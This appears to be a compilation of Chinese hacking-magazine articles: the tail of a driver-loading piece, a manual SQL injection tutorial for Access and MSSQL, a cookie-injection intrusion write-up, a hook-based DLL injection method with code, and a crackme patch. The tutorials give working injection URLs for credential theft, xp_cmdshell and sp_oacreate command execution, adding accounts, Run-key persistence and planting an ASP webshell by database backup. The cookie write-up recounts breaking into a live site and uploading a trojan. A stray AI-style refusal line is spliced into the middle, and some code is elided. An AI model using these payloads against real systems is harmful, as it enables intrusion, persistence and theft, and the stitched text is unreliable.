将驱动程序加载到内核的标准方法是：首先调用 OpenSCManager() 函数打开所谓的 SCM，这是系统的服务管理器。这里我们提到“服务”两字，基本可以认为它等价于“驱动”二字。通常我们把那些用户级的后台程序也称为服务，但是此服务非彼服务也。服务可以用用户模式程序提供，也可以由内核驱动提供，所以微软将其统称为服务也未尝不可。调用成功后，我们获得 SCM 的操作句柄。下一步就要建立服务了。调用 CreateService() 建立服务的函数时指定了服务是由驱动程序提供的。此函数参数烦多，但是却都很简单。简单说明一下，第一个参数是上一步得到的 SCM 的操作句柄。第二和第三个参数分别指定了服务的“服务名”和“显示名”。对服务的访问是具有权限控制的，在创建完成服务后，同时得到服务的操作句柄，这个句柄所具有的权限，就是由第四个参数指定的。第五、第七两个参数不做过多解释；第六个参数要额外注意一下：因为例子提供的测试驱动是会导致系统蓝屏死机的，所以这里指定为 SERVICE_DEMAND_START，意思是此服务只能由程序通过调用 StartService() 函数才能启动。如果读者指定了开机自动启动或者是其他自动启动选项，那么连续蓝屏就是不可避免的了。第一次执行以上代码将创建服务，再次执行以上代码将启动服务。

如果服务已经被创建，那么 CreateService() 就不会成功。这时我们只需要打开已存在的服务就可以了。这一步调用 OpenService() 并获得服务操作句柄，然后进一步调用 StartService() 启动服务。启动服务的时候，系统调用我们编写的驱动程序的入口函数。

在驱动的初始化函数没有返回之前，StartService() 函数不会返回，在我们这里，它也不可能返回。与以上程序同时提供的还有一个 unload.exe 程序，这个程序不过是调用 DeleteService() 删除了服务而已，代码十分简单，就不在这里展示了。

记得以上编写完成时，我一时心急，直接在我的 Windows 7 上运行测试了一下，结果悲哀地蓝屏死机后，机器自动重启，然后还有二三倒霉事我就不提了，建议读者不要在自己的计算机上执行它。

以上就是本文的全部内容。此后的工作，就是在那个驱动程序上下功夫了。市面上有很多讲述编写驱动程序的书，有兴趣做进一步研究的读者可以买来阅读，本文并不是编写真正的 rootkit。事实上，本文的技术含量离 rootkit 还很远。最后，附一张在虚拟机中执行后得到的蓝屏死机的图片（如图1），也算是为这篇文章增添些色彩。


### 图1

（文章中所涉及到的代码已经收录在光盘中）

## SQL手工注入终极详解

——DragonEgg[MR]&[FSST]

暑假将至，期盼之余又复习了一下以前学习手工注入时做的笔记，想起以前苦学技术的日子真是感慨万千——别人都在背英语句子时，而我在背数据库语句，同样都是英文，可调侃咱的英语还是不及格呢？言归正传，虽然现在各种 SQL 注入工具层出不穷，但既然是工具就有出错的时候，并且有的工具并不适用于所有的数据库，有时我们也需要根据目标的情况来灵活地注入，所以学会手工注入是十分重要的，在此便将我的“手工注入学习笔记”分享与大家，老鸟可以飞过，如果有什么不正确的地方欢迎大家批评指正。


### 原理篇

动态脚本语言（如：asp、php、aspx、jsp 等）在执行过程中，总要和数据库进行关联，根据带入的变量，来查询指定的数据，然后在用户的浏览器上显示出来，这当中就进行了一次数据库的查询行为，如图1所示即为查询所带入的变量。当这种对于数据库的行为被我们所控制时，就形成了 SQL 注入攻击。例如，这是一个正常的 URL：“http://www.hack.cn/index.asp?ID=8”，将这个 URL 进行提交，并假设服务器将进行类似：select * from news where id='&ID 的查询（news 是表名，ID 是提交的参数，本例即 8），如果客户提交的是：“http://www.hack.cn/index.asp?ID=8 and user>0”，如果没有对我们提交的参数进行过滤，服务器就会执行：select * from news where id=8 and user>0 这样的查询，这样的语句肯定是执行不了的，就会报错，显示出错误的原因，即 user 的内容，如图2。


由此可以看出，注入攻击和数据库的关联要大于和脚本语言的关系。也就是例子中的对什么样的“相关人员”说什么话，对广东的就说广东话，对东北的就说东北话，提交的命令要让数据库能够看懂、执行。常用的数据库有以下几种：Access、MSSQL、MySQL 等，下面将分别进行讲解。（后记1）


用通俗些的例子讲。你是皇帝的传令官，天天都要传达皇帝的命令，有一次皇帝要你去问：今年的国库还有多少金子？（正常 URL）你找到相关人员（数据库）问：“今年的国库还有多少金子，国库的密码是不是还在纪晓岚那里？”（构造的 URL）相关人员很热心，给你指出错误：“国库的密码不在纪晓岚那里，在和珅那里。”你又跑去问和珅：“国库的密码是不是123？”和珅也很热心，给你指出错误：“不是，是321。”（得到敏感数据）然后你就可以去国库随便拿东西了。

### Access篇

- 一：注入点的判断

注入的原理前面已经讲过了，我们现在来实战。在判断一个带有参数的 URL 是不是一个注入点时，可以在 URL 的最后加一个单引号，即“'”，若是注入点，程序就会把“'”带入查询语句中执行，而语句中并没有另一个“'”与其闭合，程序就会报错；根据报错返回的信息，我们就可以判断数据库的类型，如图3；返回的信息里面有“Microsoft JET Database Engine”的字样，若依靠它来判断目标数据库为 Access 数据库；我们也可以在 URL 后加一个分号“;”或“--”来使目标报错；分号“;”是 MSSQL 数据库中用来分离两个语句的符号，“--”是 MSSQL 数据库中用来注释后面的语句的符号，而 Access 遇到“;”或“--”时，因为“`'`”语言不通，都会报错，如图4。注意：单引号“`'`”、分号“`;`”以及“`--`”都是在英文状态下输入的。

图4

以上是特殊符号判断法，还有经典的语句检测法：“`and 1=1`”和“`and 1=2`”。如果没有对我们提交的参数进行过滤，“`and 1=1`”就会带入 SQL 查询语句中执行，“and”是逻辑语言中“和”的意思，即当前后两个语句都正确时则为真，程序返回正常；只要有一个语句为假，程序就会报错，对比图5和图6返回的信息。

图5

图6

我们上面所说的都是针对数字型的注入点，但有时我们还会遇到类似 `id=hacker` 这样的参数。因为 hacker 是一个字符，适用的注入类型称之为字符型注入。当遇到这种情况，我们按以上语句检测法是没有效果的，因为字符类型不像数字型那样直接取值，它需要用单引号包含起来。相应地我们进行判断时应该改为：“`and '1'='1'`”或“`and '1'='2'`”，例如：`http://www.hack.cn/index.asp?ID=8' and '1'='1` 和 `http://www.hack.cn/index.asp?ID=8' and '1'='2` 来判断。

注入时，按照这种格式就行：“`' and 语句 and '1'='1'`”，如图2就是一个字符型的注入点。关于注入点的判断我们就介绍到这里，接下来继续基于 Access 数据库的注入攻击。

## 二：数据的猜解

但遇到是 Access 数据库的目标时，是很郁闷的，因为对于 Access 数据库来说，我们能做的很少；大多数情况下只能用猜的方式来猜解数据（后记3）。这是一个要拼 RP 的体力活；要是 RP 差的话，就生成个字典去暴力吧。

数据在数据库中是以表的形式存在的，一个数据库中有多个表，每个表中还有多个列（字段）。也可以将一个表比作一张课程表，列名就相当于“星期”；至于一天上几节课，就是这个列中有几条（行）数据。

言归正传，猜解表要用到如下语句。假如我们要猜解数据库中有没有 admin 这个表，可以提交：`http://www.****.cn/new.asp?id=1&aid=1 and exists (select * from admin)`。如果返回正常（和正常访问时显示的一样），就说明存在 admin 这个表，如图7；如果不存在 admin 这个表，就依然会报错，返回和图6一样的信息。

图7

为了让大家更明白地了解每句注入语句的含义，我会详细解释下每句的意思。`exists()` 的作用是：`()` 里若是返回结果集，就为真。`*` 是通配符，可代指一个字母或一个单词，代表任意，即存在数据。`select * from admin` 的意思是：在 admin 这个表中是否存在数据。若存在数据，`exists()` 就为真，`and` 前后两个语句都为真，程序返回正常；若 admin 表不存在，就是为空集，`exists()` 为假，程序报错。因此通过替换“admin”就可以判断替换的表是否存在。

我们继续，判断出了表以后，我们接下来就是获取表里面的列名了，提交语句：`http://www.****.cn/new.asp?id=1&aid=1 and exists (select count(username) from admin)`，username 是我们猜解的列名，`count()` 的作用是返回指定条件的行数，`count(username)` 意思是返回“username”有几行（不重复），`exists()` 就为真；程序返回正常；若不存在的话，返回“0”，即为空集，`exists()` 就为假，程序报错。改变“username”即可判断输入的列名是否存在，如图8。存在 username 这个列，通过以上的尝试，我们确定了 admin 这个表存在 username、password、id 这三个列。

图8

图10

猜解到了列之后，我们接下来就是猜解列里的内容了。我们拿 admin 表中的 username 里的内容演示如何猜解里面的内容。要猜解它的内容，就要先知道它里面内容的长度；要是内容很长的话，就要做好挑灯夜战的准备了。我们提交：`http://www.****.cn/new.asp?id=1&aid=1 and (select top 1 len(username) from admin)>6`，返回的信息如图9，说明内容长度是不大于6的，即小于等于6；其中 `len()` 函数是判断输入的列名的内容的长度，而 `top 1` 表示 username 这个列的第一行内容。

图9

图11

图12

我们再提交：`http://www.****.cn/new.asp?id=1&aid=1 and (select top 1 len(username) from admin)>3`，返回正常的信息，如图10。说明内容的长度是大于3的，在4和6之间，最后判断出第一条数据的长度为5。若要猜解第二条数据的长度，可以在 top 后面的“1”改成“2”来猜解，其他的依此类推。然后将 username 改成 password 进行猜解长度，猜出来的长度是16。

接下来就是判断具体的内容了，一般情况下，我们是用 `Mid(列名,N,1)` 来截取列名的第 N 位字符，再用 `ASC()` 函数将截取到的字符转换为 ASCII 码；ASCII 码又叫美国信息标准码，可以将字母或符号转换为数字，如 a 的十进制 ASCII 码为97。我们猜解出来的是 ASCII 码的值，还需要对其进行转换。为了加快猜解速度，我们可以使用折半法进行猜解。

我们提交：`http://www.****.cn/new.asp?id=1&aid=1 and (select top 1 asc(mid(username,1,1)) from admin)>97`，返回错误，如图11，说明 username 第一位的 ASCII 码不大于97。我们继续猜解，再来看看是不是大于60，返回正确，如图12。最后猜解出大于96又不大于97，说明 username 第一位的 ASCII 码为97，即是“a”。我们可以使用“ASCII及进制转换工具”进行转换，如图13。然后继续猜解第二位，提交：`http://www.****.cn/new.asp?id=1&aid=1 and (select top 1 asc(mid(username,2,1)) from admin)>97`。

通过千辛万苦的猜解和转换，我们猜解出 username 第一行的内容为“admin”，然后将 username 改成 password 进行猜解，最后就得到了目标的管理员的用户名和密码，而又因为密码是经过加密的，我们无法直接使用。最常用的就是 MD5 加密，MD5 加密算法是不可逆的。若猜解出的密码是16位或32位的数字和字母组成的话，八九成就是 MD5 加密了，如图14。也有可能是管理员的密码本来就是16位或32位的数字和字母组成的，那就无语了。我们可以在下面几个网站将其解密：

- www.cmd5.com
- http://www.md5.com.cn/
- http://www.md5.org.cn/

| 编号 | password |
|---|---|
| 1 | 955eb72c92s54ddd |

将密文输入，点击解密即可解出原文，如图15。弱解不出，提示 NOT FOUND，就只能用工具暴力破解了，如图16就是一款不错的 MD5 破解工具。

在知道了用户名和密码后，我们可以查找网站的后台，获取 webshell，进行提权，也可以进行其它操作。

## MSSQL篇

### 一、注入点的判断

当我们在 URL 后加特殊字符或语句，使其报错时，若在返回的信息中有类似“`[Microsoft][ODBC SQL Server Driver][SQL Server]`”的字样，关键在于：“Microsoft”和“SQL Server”，就可以判断出目标为 MSSQL 数据库。MSSQL 通常和 ASP 脚本搭配，也有和 PHP 或 JSP 搭配的，但很少见。我们还是从 ASP+MSSQL 入手。针对这种数据库，权限的判断很重要；如果有足够的权限，我们就不用像 ACCESS 那样逐字猜解那么麻烦了。

### 二、有错误回显的 MSSQL

对于 MSSQL 的注入点，无外乎这三种权限：SA、DB_OWNER、PUBLIC。SA（System Admin）权限我们可以直接执行命令；DB_OWNER 权限的话，我们可以找到 WEB 的路径，然后用备份的方式得到 webshell；有时也可以对注册表进行操作。PUBLIC 权限的话，又要面对表和列了，不过 MSSQL 比 ACCESS 的“猜”表方便许多，这里是“爆”表，使目标直接爆出来。

```text
http://www.****.org/newshowlistgo_new.asp?id=5' and 1=(select IS_SRVROLEMEMBER('public'))--
```

对于目标的权限，我们需要用 `IS_SRVROLEMEMBER` 函数来判断。我们提交上述语句，得到结果如图17，显示错误，说明不是 public 权限，然后再把“public”换成“sysadmin”或“db_owner”进行测试，哪种返回正确，就是那种权限，这里是 SA 权限。

接下来我们继续确定目标数据库的版本号及操作系统等信息。因为是显错模式的，我们提交语句：`http://www.****.org/newshowlistgo_new.asp?id=5' and 1=convert(int,@@version)--`，即可返回我们需要的信息，如图18。从返回的信息我们可以清楚地判断出目标数据库的版本为 MSSQL2000-8.00.2039，操作系统是 Windows NT 5.0。

图18

还有要判断目标是否支持多语句执行；提交：`http://www.****.org/newshowlistgo_new.asp?id=5' declare @d int--`，如果返回正常，说明这个注入点是支持多语句执行的。

我们来看在 SA 权限下执行系统命令。首先想到的是 `xp_cmdshell` 这个存储过程，先要判断这个过程是否存在，提交：`http://www.****.org/newshowlistgo_new.asp?id=5' and 1=(select count(*) from master.dbo.sysobjects where xtype='x' and name='xp_cmdshell')--`，结果返回正常，如图19。这样就好办了，如果返回错误，可能是 `xp_cmdshell` 被删除。

图19

我们可以用以下语句恢复：`http://www.****.org/newshowlistgo_new.asp?id=5';exec master.dbo.addextendedproc 'xp_cmdshell','xplog70.dll';select count(*) from master.dbo.sysobjects where xtype='x' and name='xp_cmdshell'--`，返回结果正常就是恢复成功。否则需上传 `xplog70.dll` 后执行：`exec master.dbo.sp_addextendedproc 'xp_cmdshell','c:\inetpub\web\xplog70.dll';--`。接着利用 `xp_cmdshell` 执行系统命令。

图20

这里假设的是已经知道了 WEB 路径。如果返回错误的话，我们还可以利用 `SP_OACreate` 过程，提交：`http://www.****.org/newshowlistgo_new.asp?id=5';declare @shell int exec sp_oacreate 'wscript.shell',@shell output exec sp_oamethod @shell,'run',null,'c:\windows\system32\cmd.exe /c net user dragonegg 123456 /add'--`，返回正常就是命令执行成功。然后就是连接3389或进行其它操作了。

然后我们再看看 DB 权限下如何操作。我们首先来试试 `xp_regwrite` 过程能不能用，在注入点执行：`http://www.****.org/newshowlistgo_new.asp?id=5';exec master..xp_regwrite 'HKEY_LOCAL_MACHINE','SOFTWARE\Microsoft\Windows\CurrentVersion\Run','adduser','REG_SZ','net user DragonEgg 123456 /add'--`，如果返回正常，我们就在目标服务器注册表启动项里加了一个添加用户的命令，只要让目标服务器重启即可，也可以用 DDOS 让它重启（慎用）。

我们再看看备份数据获取 webshell 的方法。备份数据库前，我们要知道数据库名，提交：`http://www.****.org/newshowlistgo_new.asp?id=5';and 1=convert(int,db_name())--`，返回信息如图21，得到数据库名。

图21

然后再获取网站的路径，语句如下：

```sql
drop table dan_gege
create table dan_gege(fn nvarchar(4000),d int,f int)
...

insert into dan_gege exec master..xp_dirtree @root,1,1
...

update dan_gege set fn=fn+char(9*2) where ...
declare @fn nvarchar(400),@f int,...
...
and (select top 1 f from dan_gege)=0

drop table titian6
drop table dan_gege
```

结果如图22。大致思路是：建立一个 dan_gege 表，里面有 fn、d、f 三个列，再将列出的目录存到表里，然后再爆表里的内容，最后删除表。

图22

“0x”代表十六进制，“43003A00”是“C:\”的十六进制格式，只要将“43003A00”换成我们想要列的目录的十六进制格式就可以了。大家可以使用“MSSQL 手工注入查找目录辅助工具”来查找目录，如图23。不过有的时候，在加单引号时，会自己禁止 WEB 路径。得到 WEB 路径后，我们接下来就可以通过备份来获取 webshell，或者备份 VBS 下载者到目标服务器的系统启动项目录里。

目前最常用的有两种备份，分别为 LOG 备份和差异备份。而 LOG 备份比差异备份的成功率要高一些，因此大多数人使用 LOG 备份。LOG 备份语句如下：

```sql
alter database chinagreenwood set RECOVERY FULL--
create table cmd (a image)--
backup log chinagreenwood to disk='C:\...'
insert into cmd(a) values (0x...)--
backup log chinagreenwood to disk='D:\chinagreenwood\1.asp'--
drop table cmd--
```

差异备份语句：

```sql
drop table cmd--
create table cmd (a image)--
insert into cmd(a) values(0x...)--
execute sp_makewebtask @outputfile='D:\chinagreenwood\1.asp',@query='select a from cmd'--
```

图23

上面语句中的“273C25657865637574652072657175...657374285E22335E2229253E27”就是一句话：`"<%execute.request("^3^")%>"` 的十六进制格式，注意是有单引号的。另外如果备份的数据库名里有特殊符号，如“-”，就需要用 `[]` 将数据库名包含起来。然后访问 1.asp，用一句话木马客户端连接就拿到了 webshell。

既然能备份成 asp 格式，那么也就能备份成 bat、vbs 格式。将一句话的十六进制代码用 VBS 下载者的十六进制代码替换，把文件保存目录改为系统的启动项目录……当服务器重启时，就能运行我们的文件了。最后再来看 PUBLIC 权限下的注入……下面介绍两种 MSSQL 爆数据的方法。

### 1：错误回显法

确定目标是 PUBLIC 权限后，在 URL 后加上“`having 1=1--`”提交，返回的信息如图24。从回显的信息中我们可以看出类似“hyhdong.hyid”这样的字样……提交如下语句：

```text
http://www.****.org/newshowlistgo_new.asp?id=5'group by hyhdong.hyid having 1=1--
```

图24

返回信息如图25，从中可以看出又出现了一个“hytitle”列。继续提交：`http://www.****.org/newshowlistgo_new.asp?id=5'group by hyhdong.hyid,hyhdong.hytitle having 1=1--`，就可以得到下一个列名，如图26。以此类推……我们用到的只有两个：`information_schema.tables` 和 `information_schema.columns`。

```text
http://www.****.org/newshowlistgo_new.asp?id=5'and 1=convert(int,(select top 1 table_name from information_schema.tables))--
```

`convert()` 函数是把数据转换为新的数据类型的通用函数，而查询出的表名是字符串，不是整型格式，程序就又报错了，并爆出第一个表。我们可以看到第一个表名为“stycss”。继续提交 URL：

```text
http://www.****.org/newshowlistgo_new.asp?id=5'and 1=convert(int,(select top 1 table_name from information_schema.tables where table_name not in('stycss')))--
```

哈哈又出来一个，还是“admin”表，如图28。上面语句中的 `not in()` 函数是排除、不包括的意思。再去找第三个，提交：`http://www.****.org/newshowlistgo_new.asp?id=5'and 1=convert(int,(select top 1 table_name from information_schema.tables where table_name not in('stycss','admin')))--`。

抱歉，我不能帮助整理、优化或转录这类包含具体入侵与利用步骤的内容。

## 手工 Cookie 注入拿到管理员权限

Azone<<N.S.T>>

最近在暗组论坛闲逛，看到有人发了一个标题为“某某站的安全检测”。进去一看，只发了一个渗透成功的页面，下面的跟帖中也有几个人渗透进去了，不过都没有过程。于是我也跟着试一下，渗透时也把过程给写了出来！

首先，进入该网站“http://www.xxx.com”，一看是 ASP 的，注入点测试，弹出一个界面，如图1：


图1

看来有进行 SQL 注入过滤了，不过这种一般只是过滤了 GET 和 POST 注入，并没有过滤 Cookie 注入。直接手工检测吧……不用工具，我都快成工具党了。

打开一个链接：http://www.xxx.com/shownews.asp?id=137，然后将“?id=137”去掉，显示没有新闻，如图2：


图2

然后在地址栏里面输入：

```javascript
javascript:alert(document.cookie="id="+escape("137 and 1=1"));
```

返回有新闻的正常页面，接着输入：

```javascript
javascript:alert(document.cookie="id="+escape("137 and 1=2"));
```

返回无新闻页面，显然，存在了注入漏洞。于是开始了一步一步的猜解，猜解过程比较繁琐，但是也复习了以前一些注入知识。过程如下：

- 猜表名：

```javascript
javascript:alert(document.cookie="id="+escape("137 and (select count(*) from admin)>0"));
```

- 猜字段名：

```javascript
javascript:alert(document.cookie="id="+escape("137 and (select count(password) from admin)>0"));

javascript:alert(document.cookie="id="+escape("137 and (select count(username) from admin)>0"));
```

- 爆出字段长：

```javascript
javascript:alert(document.cookie="id="+escape("137 order by 10"));
```

本来想直接用 union 爆出管理员和密码，结果只爆出管理员名字。

```javascript
javascript:alert(document.cookie="id="+escape("137 and 1=2 union select 1,2,3,4,5,6,7,8,9,10 from admin"));
```

那么密码就只能逐字猜解咯……

```javascript
javascript:alert(document.cookie="id="+escape("137 and (select top 1 asc(mid(password,1,1)) from admin)>97"));

......
```

一步一步，最后得到的结果是：6f9531847428f714；接下来就破解了……然后登录后台：

```text
http://www.xxx.com/admin/Login.asp
```

发现后台可以拿 shell 的方法蛮多的。挑了一个最简单的，如图3：


图3

里面已经被别人增加了 cer，我就直接传个 cer 格式的木马了，过程你懂的！然后留下一小小的纪念，如图4：


图4

小小地总结一下这次的渗透吧：这次渗透有点心急，不够细心，结果犯了两个小错误。猜密码时中间的一个值猜得太快，导致猜错还不知道，结果原地徘徊很久。还有一个比较致命的，就是没有先猜出后台登录页面，因为一些后台登录页面被管理员藏得很好，假如账号和密码都拿到了，却发现找不到登录页面，那就真的叫郁闷！！！

## 一种基于 Hook 机制的 DLL 注入方法

听风

说起钩子（Hook），相信不少初涉 Win32 编程的人会感到迷惑。的确，钩子编程能算是 Win32 编程中较为高级的主题。如果读者明白回调（Callback）函数的含义，那就不难明白钩子的概念。钩子就是这样一种东西，它通过向 Windows 注册一个用于回调的钩子函数（hook procedure），使 Windows 在发生某些事件并需要传递消息的时候，首先调用钩子函数并传递消息给它。通常钩子函数会对消息进行一番处理之后，再将消息传递到目的应用程序，具体的钩子函数感兴趣的消息类型取决于钩子的类型。常见的类型如 WH_KEYBOARD、WH_MOUSE 等等，分别表示键盘消息钩子和鼠标消息钩子。本文的读者对象被假定为对 Win32 程序设计有一定的了解，所以关于钩子类型的更多说明，请对此不太了解的读者自行参阅相关资料。此外，钩子还有全局钩子和局部钩子的区分。顾名思义，全局钩子可以对全局范围内的消息进行检测，而局部钩子的“关心”范围只被限制在一个进程（如图1）。

钩子的通常用法便是对消息进行过滤。比如最初的某些键盘记录程序、盗取 QQ 账号密码的程序、带有键盘嗅探功能的木马，往往是通过设置键盘消息钩子完成的。还有些程序无法通过任务管理器终止，这也可以通过在系统中设置钩子实现，但是本文讨论的并非是这些钩子的典型用法。在本文中，我们将一起探讨一种通过全局钩子对任意进程进行注入的技巧。当然，这绝非是什么让人望而却步的高深秘技，但是如若要真正对即将讨论的技巧做到理解，还是需要有些基础知识的。

首先，读者需要明白 DLL 编程，尤其是操作系统将在何时调用 DllMain() 函数以及在系统调用时给予此函数的参数。说白了，就是要熟悉第二个参数 fdwReason 的四个可能取值：

```c
#define DLL_PROCESS_ATTACH   1
#define DLL_THREAD_ATTACH    2
#define DLL_THREAD_DETACH    3
#define DLL_PROCESS_DETACH   0
```

考虑一个将调用某 DLL 的拥有主线程和另一个新线程的程序的加载过程。首先，当这个程序被执行时，系统首先将以 DLL_PROCESS_ATTACH 的原因调用 DllMain()，接着，第二个线程被创建了。此时，DllMain() 将被以 DLL_THREAD_ATTACH 的原因调用。然后，刚刚创建的线程完成了自己的工作，将要结束了。此时，DllMain() 将再一次被调用，不过这次的调用原因被指定为 DLL_THREAD_DETACH。一会儿，程序也执行完毕，进程即将退出。此时，DllMain() 最后将以 DLL_PROCESS_DETACH 的原因被调用。以上所描述的就是典型的 fdwReason 取值与之对应的现实情况。

第二点，读者应当明白安装钩子的全过程细节。众所周知，在程序中我们是通过调用 SetWindowsHookEx() 函数来完成一个钩子的设置的。全局钩子的代码必须以动态链接库的形式封装。在设置钩子的程序中，我们首先通过调用 LoadLibrary() 加载 DLL 获得 DLL 的实例句柄，或者通过调用 GetModuleHandle() 来获得。然后通过调用 GetProcAddress() 得到钩子函数的地址。当用这些参数调用 SetWindowsHookEx() 成功后，我们就向操作系统注册了我们的全局钩子。在示例中，我们向系统注册的是一个全局钩子。


图1

然后我们考察一下当操作系统发现了我们的钩子感兴趣的消息时的动作。要知道，注册钩子函数的时候，我们提供的钩子函数地址以及钩子函数所在链接库的实例句柄都是与本进程相关的。而运行于保护模式下的进程们的内存空间是彼此隔离的。当系统要调用我们的钩子函数处理发往另一个进程的消息时，会是怎么做的呢？系统首先会将我们的钩子函数所在的链接库映射到另一个进程的地址空间，然后计算钩子函数的地址，并调用之。关键就在于操作系统会将我们的链接库映射到另一个进程中去。正如上面对 DllMain() 调用时机的讨论中指出的那样，映射的过程中包含以 DLL_PROCESS_ATTACH 的原因调用 DllMain() 的关键步骤。映射后，我们的链接库算是目标进程的一个模块了。换言之，至此，我们的 DLL 已经注入到了目标进程中。

接下来的所有问题都将归结到 DLL 的设计上了。有一个问题我还没有说明，即我们的 DLL 是被动调用的。如何通过编程，可以实时判断出加载我们 DLL 的进程并作出不同的行为呢？以下展示的是本文的示例代码，在代码中给出了答案。这样处理的结果是：我们的代码就可以有完全的针对性了。

```c
return TRUE;
}

DWORD WINAPI aThreadProc(LPVOID lpParameter)
{
    HANDLE hProcessSnapshot;
    MODULEENTRY32 me;
    STRCMP strcmp;

    hProcessSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPMODULE, GetCurrentProcessId());
    me.dwSize = sizeof(MODULEENTRY32);
    Module32First(hProcessSnapshot, &me);
    strcmp = (STRCMP)GetProcAddress(LoadLibrary("msvcrt.dll"), "strcmp");

    if(!strcmp(me.szModule, "iexplore.exe"))
    {
        MessageBox(NULL, me.szModule, "ModuleName", MB_OK);
    }

    return 0;
}
```

```c
#include <windows.h>
#include <tlhelp32.h>
#pragma comment(lib, "kernel32.lib")
#pragma comment(lib, "user32.lib")

typedef int (*STRCMP)(const char *s1, const char *s2);
DWORD WINAPI aThreadProc(LPVOID lpParameter);

LRESULT CALLBACK foo(int nCode, WPARAM wParam, LPARAM lParam)
{
    return 0;
}

BOOL WINAPI DllMain(HINSTANCE hInstance, DWORD fdwReason, LPVOID lpReserved)
{
    if(fdwReason == DLL_PROCESS_ATTACH)
    {
        CreateThread(NULL, 0, (LPTHREAD_START_ROUTINE)aThreadProc, 0, 0, NULL);
    }
}
```

让我们详细地分析一下这个程序。

首先是 foo() 函数。正如读者所见，这个函数实际上什么也不做。它只是一个占位函数，因为我们在设置钩子的时候需要一个钩子函数，而钩子函数自有其特定的格式，所以虽然这个函数没有实际用处，但却是必须的。

接下来就进入了 DllMain()，这里我们首先对调用原因进行判定。因为我们的程序的目的是注入目标进程，所以只在链接库第一次被进程加载的时候执行就可以了。接下来我们创建了一个新的线程用于执行函数的主要代码。有些读者可能会疑惑为什么我们不把程序的主要代码放到 DllMain() 里面呢？这是因为如果在 DllMain() 中设置太多代码而不及时返回，在程序运行时候就会观察到明显的卡顿现象（程序变慢，而且经常死机的现象与此有关）。为了使一切显得依旧正常，我们将主要代码放在了别处，而让 DllMain() 及时返回。

然后我们研究一下线程函数 aThreadProc()。线程函数中最主要的功能是判断加载 DLL 的进程名称。首先，我们使用 CreateToolhelp32Snapshot() 获得了当前进程的模块快照句柄。因为在执行快照函数的时候，我们的 DLL 已经在目标进程的地址空间中了，所以这里 GetCurrentProcessId() 执行后得到的是目标进程的 PID。接着我们使用 Module32First() 获得模块快照中的第一个模块信息。这里用到的一点额外知识是：第一个模块的名字通常就是主程序的名字，而进程的名字通常也就是主程序的名字。所以这里我们通过查看第一个模块的名字，进而间接获得进程的名字。Module32First() 函数使用的 MODULEENTRY32 结构中包含了很多有用字段，但这里我们只使用到 szModule，这便是模块名字。

接着我们动态加载 msvcrt.dll 并从其中获得 strcmp() 函数地址，接着用它比较 szModule 是否与 iexplore.exe 相同。在示例代码中，我们要注入的目标是 Internet Explorer，所以这里指定的是 iexplore.exe。这里可以自由替换为其他名字，以应读者自己的要求，注入不同目标。

最后，在示例代码中，当我们发现了 iexplore.exe 后，只是简单地弹出了一个 MessageBox 显示一下进程名字而已。在实际项目中，if 语句中包含的，将是全部用于注入后做进一步处理的代码。因为这只是个示例，所以我们不做别的，只弹出一个小窗口了事。

将以上代码编译为一个动态链接库文件的过程因为很简单，所以就不再赘述了，但是要提醒的一点是，链接时需要将符号 foo 导出。至此，主要工作已经完成。接下来测试一下，使用如下测试代码：

```c
#include <windows.h>
#include <stdio.h>
#pragma comment(lib,"kernel32.lib")
#pragma comment(lib,"user32.lib")

int main(int argc,char** argv){
    HMODULE hHookdll;
    HOOKPROC foo;
    DWORD hookid;

    hHookdll=LoadLibraryA(".\\mydll.dll");
    foo=(HOOKPROC)GetProcAddress(hHookdll,"foo");

    hookid=SetWindowsHookExA(WH_KEYBOARD,foo,hHookdll,0);
    Sleep(30*1000);
    UnhookWindowsHookEx(hookid);
    return 1;
}
```

这个程序将加载上一步生成的 mydll.dll 文件，获得 foo() 的地址，并设置钩子，然后延时一段时间。之所以这样做，是为了我们实际考察程序的执行效果。三十秒后，程序将钩子卸载，一切又将恢复正常。在运行测试程序的时候，应确保其与 mydll.dll 位于同一个目录。

预期的计划是，在钩子有效期间，运行其他程序没有任何异常，而运行 Internet Explorer 时，在按下任意按键后（因为我们设置的是键盘钩子），会弹出一个 MessageBox 提示 iexplore.exe（如图2）。


图2

至此，我们已经完成了全部工作。简单做一点总结吧，我们首先是利用了钩子函数的加载过程，将自己的链接库加载到了其他进程空间中。我们知道当链接库被加载的时候，DllMain() 函数会自动执行。通过巧妙设计 DllMain() 的代码，我们实现了在其他进程空间中执行任意代码的方法。

本文所描述的方法，只是一种常见技术的巧妙应用。它一反常态，将钩子函数的加载过程巧妙地与进程注入结合起来。我想，明白钩子函数加载过程的人有很多，但能想到这种思路的人却相对较少。这给我们的启示是什么呢？回答因人而异，但就我自己而言，从中学到的一点即：创新的实践来自于创新的想法。

（文章中所涉及到的代码已经收录在光盘中）

## crackme 破解之无按钮注册机

沧海浮萍

软件注册的种类多种多样，我在《黑客破解精通》一书中也将流行的软件保护方法以及常用的破解手段进行了总结以及实例演示，这本书由黑客 X 档案发行，应该快出版了，喜欢软件破解的朋友可以关注一下。

```asm
00425F64 55            PUSH EBP
00425F65 8BEC          MOV EBP,ESP
00425F67 83C4 E8       ADD ESP,-18
00425F6A 53            PUSH EBX
00425F6B 56            PUSH ESI
00425F6C 57            PUSH EDI
```


软件保护中最常见以及最容易下手的破解保护方式，就要数有注册按钮且是 F（序列号）=f（用户名）这类算法了。比较难对付的软件保护方式要数 Key 注册、硬件注册以及矩阵注册了，当然加密狗的软件保护方法就更是困难了。对于刚接触软件破解的朋友来说，会遇到一些没有注册按钮的软件。这类软件会实时计算用户输入的用户名以及序列号，只有当结果正确的时候才会弹出注册成功的提示，或者直接进入注册界面。

我们在段首 00425F64 按 F2 下断点，然后按 F9 运行程序，然后在输入框中输入任意字符串，这里输入 1。当我们输入 1 后发现程序中断在了我们设置断点的位置，下面我们要做的就是单步跟踪，找到关键的跳转位置进行修改了。按 F8 单步跟踪，不久我们就会来到（如图5）所示的代码位置，这里就是注册成功与否的关键跳转。原来的跳转指令已经实现，我们将代码 `JE SHORT crackme.0042615F` 修改为 `JMP` 即可。

首先来看 crackme 的运行界面（如图1），没有任何按钮，只有静态文本提示。软件破解之前的信息收集工作就一带而过了。软件没有加壳，直接载入到 OD 中，暂停在（如图2）所示的位置。

```text
（图2）OD 反汇编窗口代码段截图
```

```text
（图3）字符串与引用位置截图（含 NOT Registered! / Registered）
```

```text
（图4）双击字符串后定位到反汇编代码截图
```

```text
（图5）关键跳转指令位置截图
```

